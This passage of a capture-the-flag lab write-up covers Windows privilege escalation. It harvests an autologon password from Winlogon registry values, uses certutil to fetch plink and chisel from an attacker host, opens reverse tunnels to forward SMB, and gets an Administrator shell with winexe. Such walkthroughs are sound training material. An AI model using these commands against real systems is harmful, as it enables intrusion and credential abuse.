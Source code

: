 ```
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AutoLogonChecked
```
- Let's try to use the password on the local smb, but first we need to do some port forwarding
- We need to get plink in our attacking machine and transfer it to the target
  - `wget https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe`
  - `python3 -m http.server 80`
  - In our target we browse to a directory where we have write access (Alfred's desktop for instamnce) and we get plink `certutil.exe -urlcache -f http://10.10.14.4/plink.exe plink.exe`
- We are going to launch ssh in our kali in our /etc/ssh/sshd_config PermitRootLogin should be set to yes `PermitRootLogin yes`
- `service ssh start`
- Now we can port forward smb with plink from our target machine: `plink.exe -l root -pw your-kali-password-here -R 445:127.0.0.1:445 10.10.14.4` 
  - For more infor on this check out this [article by UY](https://informationsecurity.medium.com/remote-ssh-tunneling-with-plink-exe-7831072b3d7d)
- For some reason I am not able to connect to my own machine using ssh so I gonna try with chisel
- On my kali `chisel server --reverse` (it going to listen on port 8080)
- On the target `.\chisel.exe client 10.10.14.4:8080 R:445:127.0.0.1:445`
- It seems to work
![image](https://user-images.githubusercontent.com/96747355/161387046-ca2121ae-98af-4e64-8c75-909d33959675.png)  
![image](https://user-images.githubusercontent.com/96747355/161387144-75e25b0e-43e6-43dd-953b-2a12fb3f9436.png)  
- Now we can use winexe from our machine and connect with administrator using the discovered password `winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"`
- And we get a root shell!
![image](https://user-images.githubusercontent.com/96747355/161387309-0d3782c8-9381-4c24-8c46-c2775e1f6b5a.png)
- And we can grab the root flag  

